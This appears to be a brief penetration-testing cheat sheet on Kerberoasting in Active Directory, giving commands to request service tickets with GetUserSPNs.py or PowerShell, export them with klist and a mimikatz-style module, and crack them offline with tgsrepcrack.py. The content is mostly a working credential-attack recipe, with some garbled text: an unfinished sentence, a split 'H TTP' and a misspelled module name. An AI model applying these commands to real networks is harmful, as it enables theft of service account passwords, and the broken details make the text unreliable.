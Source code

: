 # Kerberoasting
## Overview
We now know that the client requests a service ticket from the domain controller. Though, no checks are performed during that step to verify if the user has the correct permissions to access the ressource. These checks are only performed when the client connects to the service itself.

Most important, altough, the ticket always gets encrypted using the password hash of the service account. This means, that any user that has access to any service account password hash within the active directory network.

## One way
```
python GetUserSPNs.py domain/user -dc-ip <ip> -request
```

## Another way
Generating the ticket
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H TTP/CorpWebServer.corp.com'
```

Exporting the ticket
```
PS C:\> klist
PS C:\> kerberost::list /export
```

## Cracking the password
```
apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py <wordlist> <TGS-file>
```
